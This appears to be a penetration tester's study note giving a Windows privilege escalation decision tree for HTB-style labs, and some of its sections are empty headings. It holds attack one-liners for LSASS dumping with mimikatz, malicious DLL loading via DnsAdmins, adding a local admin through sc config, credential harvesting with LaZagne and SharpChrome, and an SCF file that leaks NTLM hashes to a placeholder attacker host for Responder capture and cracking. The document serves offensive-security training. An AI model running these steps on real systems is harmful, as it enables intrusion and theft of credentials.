






# Windows Privilege Escalation, Decision Tree

Part of [[DECISION TREE]]. "I found X on a Windows box, what do I try for privesc?" Technique details in [[17. Windows Privilege Escalation|Windows Privilege Escalation]]. Exact syntax in [[Windows Privilege Escalation]].

---

## Got a shell. Where to start?



---

## Service Vector Triage



---

## Scheduled Task Triage

Got a task running as a higher-priv user:


Hidden tasks (access denied to list):
- `schtasks /query` shows `INFO: There are no scheduled tasks presently available at your access level` -- tasks DO exist, you just can't see them.
- Try: enumerate from a higher-priv context once you have it, or look for running processes that match task patterns.

---

## Kernel Exploit Triage



---

## Privilege Triage (whoami /priv)

| Privilege | Path |
|-----------|------|
| SeImpersonatePrivilege | SigmaPotato / GodPotato → SYSTEM |
| SeBackupPrivilege | Read any file (bypass ACLs with backup semantics) or dump SAM/SYSTEM hives |
| SeRestorePrivilege | Write any file (bypass ACLs) |
| SeDebugPrivilege | Dump LSASS memory → hashes → PtH or crack |
| SeAssignPrimaryTokenPrivilege | Potato family |
| SeLoadDriverPrivilege | Load a malicious kernel driver → SYSTEM |
| SeTakeOwnershipPrivilege | Take ownership of any file then modify its ACL |

SeBackupPrivilege path (Backup Operators member):


---

## Access Denied on sc.exe / Service Control



---

## WinRM vs nc Shell -- Which Has More Access?

If you have both a WinRM session and a nc/reverse shell:
- WinRM runs PowerShell in a constrained remote context. Some paths (`C:\Users\Public\`, certain pipes, interactive processes) can be denied even for users who'd normally have access.
- nc / reverse shells from scheduled tasks run in a more interactive-like context and can have different ACLs in practice.
- **Rule of thumb:** if something fails with access denied over WinRM and should theoretically work, try it from the nc/bind shell before assuming the technique doesn't work.

---

---

## whoami /priv shows non-default privilege — what to do?

| Privilege | Immediate technique |
|-----------|-------------------|
| `SeImpersonatePrivilege` | PrintSpoofer / JuicyPotato / SweetPotato → SYSTEM |
| `SeAssignPrimaryTokenPrivilege` | Same as SeImpersonate |
| `SeBackupPrivilege` | Copy-FileSeBackupPrivilege / hive dump → hashes |
| `SeRestorePrivilege` | Write to any file regardless of ACL |
| `SeDebugPrivilege` | procdump lsass → mimikatz sekurlsa::logonpasswords |
| `SeTakeOwnershipPrivilege` | takeown /f → icacls /grant → read any file |
| `SeLoadDriverPrivilege` | EoPLoadDriver + Capcom.sys → SYSTEM shell |

Expanded privilege triage beyond the base module. See [[17. Windows Privilege Escalation|WPE.2]].

---

## id shows user is in a Windows built-in group — what to do?

| Group | Technique |
|-------|-----------|
| Backup Operators | SeBackupPrivilege → Copy-FileSeBackupPrivilege SAM/SYSTEM |
| Event Log Readers | `wevtutil qe Security /f:text \| Select-String "/user"` → cleartext creds in process creation logs |
| DnsAdmins | `dnscmd /config /serverlevelplugindll <malicious.dll>` → restart DNS → SYSTEM DLL load |
| Print Operators | SeLoadDriverPrivilege → EoPLoadDriver + ExploitCapcom → SYSTEM |
| Server Operators | `sc config <service> binPath= "cmd /c net localgroup Administrators <user> /add"` → sc start → local admin |

See [[17. Windows Privilege Escalation|WPE.7]] through [[17. Windows Privilege Escalation|WPE.11]].

---

## Credential hunting — where to look on Windows

```
Start: low-priv shell on Windows
         ↓
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml (from C:\Users)
         ↓
type C:\Windows\Panther\unattend.xml (provisioning creds)
         ↓
Get-LocalUser (check Description field for plaintext passwords)
         ↓
cat (Get-PSReadlineOption).HistorySavePath (PowerShell command history)
         ↓
Sticky Notes: plum.sqlite via PSSQLite (credentials pasted into notes)
         ↓
cmdkey /list (Credential Manager: saved RDP, web, domain creds)
         ↓
LaZagne.exe all (DB clients, browsers, WinSCP, Outlook, etc.)
         ↓
SharpChrome.exe logins /unprotect (Chrome saved passwords)
         ↓
SessionGopher (WinSCP registry, PuTTY sessions)
         ↓
mRemoteNG confCons.xml + mremoteng_decrypt.py (remote management tool)
```

See [[17. Windows Privilege Escalation|WPE.16]], [[17. Windows Privilege Escalation|WPE.18]].

---

## Found a writable share with other users browsing it

```
Writable file share (Public, IT, etc.) + active users detected?
         ↓
Create @Inventory.scf in the share:
  [Shell]
  Command=2
  IconFile=\\PWNIP\share\legit.ico
         ↓
Start Responder: sudo responder -w -v -I tun0
         ↓
Any user who opens the folder in Explorer triggers NTLM hash capture
         ↓
hashcat -m 5600 hash.txt rockyou.txt → cleartext password
```

See [[17. Windows Privilege Escalation|WPE.20]], [[17. Windows Privilege Escalation#SCF File Attack. Responder Hash Capture (HTB Supplementary)|Command Appendix]].

---

## System is missing patches — old Windows OS (Server 2008 R2 / Win 7)

```
systeminfo → few KBs installed → likely vulnerable
         ↓
Run Sherlock.ps1 (Find-AllVulns) on target
OR
Capture systeminfo output → run windows-exploit-suggester.py on Kali
         ↓
[E] or [M] entries = exploitable patches
         ↓
MS10-092 (Task Scheduler): MSF windows/local/ms10_092_schelevator → SYSTEM
MS16-032 (Secondary Logon): Invoke-MS16-032.ps1 → SYSTEM shell popup
```

See [[17. Windows Privilege Escalation|WPE.23]], [[17. Windows Privilege Escalation|WPE.24]].

---

## Kernel / CVE quick reference (HTB additions)

| CVE / Bulletin | Nickname | Target OS | Method |
|----------------|----------|-----------|--------|
| CVE-2021-36934 | HiveNightmare | Win10 1809-21H1 | VSS shadow SAM read → hash extraction |
| CVE-2021-1675 | PrintNightmare | All Windows (2021) | Spooler DLL injection → SYSTEM |
| MS10-092 | Task Scheduler XML | Win7/2008 R2 | MSF schelevator module |
| MS16-032 | Secondary Logon | Win7-10 | Invoke-MS16-032.ps1 |
| CVE-2023-29360/28252 | CLFS/Win32k | Win10/11/2022 | (existing appendix) |

---

## Citrix / VDI restricted environment

```
Restricted desktop: only approved apps accessible
         ↓
Option 1: Open/Save dialog trick
  Open Paint → File → Open → type \\127.0.0.1\c$\users\<user> → All Files
  Browse full filesystem via UNC in the Open dialog
         ↓
Option 2: SMB share + cmd.exe launcher
  Attacker: smbserver.py -smb2support share ./
  In Open dialog: \\PWNIP\share → find cmd.exe or .exe → right-click → Open
         ↓
From cmd.exe: powershell -ep bypass → PowerUp.ps1 Write-UserAddMSI
→ Run UserAdd.msi → create local admin user
→ runas /user:backdoor cmd → Bypass-UAC.ps1 → SYSTEM
```

See [[17. Windows Privilege Escalation|WPE.19]].

#### Tags: #WindowsPrivesc #DecisionTree #KernelExploit #DLLHijack #SeImpersonatePrivilege #SeBackupPrivilege #ServiceBinaryHijacking #ScheduledTasks #UnquotedServicePath #CVE202328252 #CVE202329360 #Module17 #SeDebugPrivilege #SeTakeOwnershipPrivilege #SeLoadDriverPrivilege #DnsAdmins #ServerOperators #EventLogReaders #HiveNightmare #PrintNightmare #CredentialHunting #SCFAttack #CitrixBreakout #HTBSupplementary
